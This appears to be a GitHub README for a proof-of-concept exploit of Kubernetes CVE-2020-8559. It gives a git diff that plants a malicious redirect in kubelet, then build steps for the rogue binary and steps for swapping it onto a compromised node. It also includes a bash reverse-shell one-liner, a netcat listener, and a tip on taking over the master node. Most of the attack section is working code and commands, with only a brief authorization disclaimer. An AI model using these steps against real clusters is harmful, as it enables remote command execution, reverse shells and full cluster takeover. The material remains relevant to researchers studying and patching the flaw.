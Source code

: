 # Kubernetes CVE-2020-8559 Proof of Concept PoC Exploit

__This is for demonstration purposes only. Only for use on systems you are authorized to preform administrative actions on and are authorized to exploit CVE-2020-8559 on__

This is a PoC for CVE-2020-8559 This vulnerability allows an attacker who has gotten `root` on a Node to execute commands on any other Container in the cluster allowing the attacker to take over the Kubernetes Master Node.

This vulnerability is due to the fact that the Kubernetes API Server and kubectl command will follow HTTP Redirects combined with the fact that the Kubernetes API just puts all of the components of an API request into the URL i.e. Node name, Pod name, Container name, and even the Command. Therefor, if the Kubelet process responds to `/exec`, `/attach`, `/portforward`, or any `resource: proxy` action with a HTTP 302 Redirect with a Location header which says to execute a different command on a different Node in a different Container the Kubernetes API Server or `kubectl` command will happily make a new request for whatever is in the Location header.

## Kubernetes Repo with my PoC Code

You can download my forked version of Kubernetes and switch to my branch to build the exploit `kubelet` binary.  
This branch is based on the `v1.15.9` tag.  

```
git clone -b CVE-2020-8559 --single-branch git@github.com:tdwyer/kubernetes.git
```

## Git diff

```
diff --git a/pkg/kubelet/server/server.go b/pkg/kubelet/server/server.go
index c1f1975fe43..8459802755e 100644
--- a/pkg/kubelet/server/server.go
+++ b/pkg/kubelet/server/server.go
@@ -867,6 +867,28 @@ func (s *Server) ServeHTTP(w http.ResponseWriter, req *http.Request) {

        method, path := req.Method, trimURLPath(req.URL.Path)

+       ////
+       ////
+       // If path is vulnerable to CVE-2020-8559 send 302 redirect with malicious Location header
+       ////
+       ////
+       protocol := "https"
+       // If attacking requests from admins using the kubectl command
+       //     host == hostname of the Kubernetes API server obtained from `kubectl -v 8 get pods`
+       // If attacing the Kubernetes API Server
+       //     host == hostname of the Node the Victim container is running on
+       host := "internal-api-app-25-123456-123456789.us-west-2.elb.amazonaws.com"
+       namespace := "default"
+       pod := "victim-675759495f-pmfbk"
+       container := "victim"
+       command := "hostname"
+       if strings.Contains(req.URL.Path, "/exec") || strings.Contains(req.URL.Path, "/attach") || strings.Contains(req.URL.Path, "/portforward") {
+               fmt.Println("--------------------------------------------------------------")
+               fmt.Println("Sending Redirect")
+               fmt.Println("--------------------------------------------------------------")
+               http.Redirect(w, req, protocol+"://"+host+"/api/v1/namespaces/"+namespace+"/pods/"+pod+"/exec?command="+command+"&container="+container+"&stderr=true&stdout=true", 302)
+       }
+
        longRunning := strconv.FormatBool(isLongRunningRequest(path))

        servermetrics.HTTPRequests.WithLabelValues(method, path, serverType, longRunning).Inc()
```

## Configure

This PoC will just send 302 HTTP Redirect with a hard coded Location header, so you will need to edit `kubernetes/pkg/kubelet/server/server.go` and update `host`, `namespace`, `pod`, `container`, and `command`

__ProTip:__ List all of the Pods in the cluster. Then, configure this to execute commands on a Pod running on the Kubernetes Master Node in order start a reverse shell back to you in order to take over the cluster

## Build

After Configuring the attack, build a rouge `kubelet` binary

```
cd ~/go/src/k8s.io/kubernetes
GO111MODULE=on go mod download
cd ~/go/src/k8s.io/kubernetes/cmd/kubelet
go build
```

## Attack

1. Get root on a Node
2. Copy the rouge `kubelet` binary to the Node
3. Stop the `kubelet` process and over-write the binary with the rouge binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process and copy the rouge binary into place  
`sudo kill $PID ; sudo cp kubelet /usr/local/bin/kubelet`  
4. Kill the `kubelet` process again so that it will re-start with the rouge binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process  
`sudo kill $PID`  
5. If configured to attack an admin using the `kubectl` command on their local workstation, This command should return the hostname of the Victim Container instead of the container it should have been executed on
```
[0038][tdwyer@tdwyer-nuc:~/CVE-2020-8559]$ kubectl exec attacker-5cf89b94db-xdbfm -- date
victim-675759495f-pmfbk
```


You can also start a reverse shell back you from any Container with
1. Start netcat listening on your workstation  
`nc -lv 4444`  
2. Use this command instead  
`/bin/bash -i >& /dev/tcp/1.2.3.4/4444 0>&1`  

Success :D  
```
[1617][tdwyer@tdwyer-nuc:~]$ nc -lvk 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 9.8.7.6.in-addr.arpa 46828 received!
bash-5.0#
```

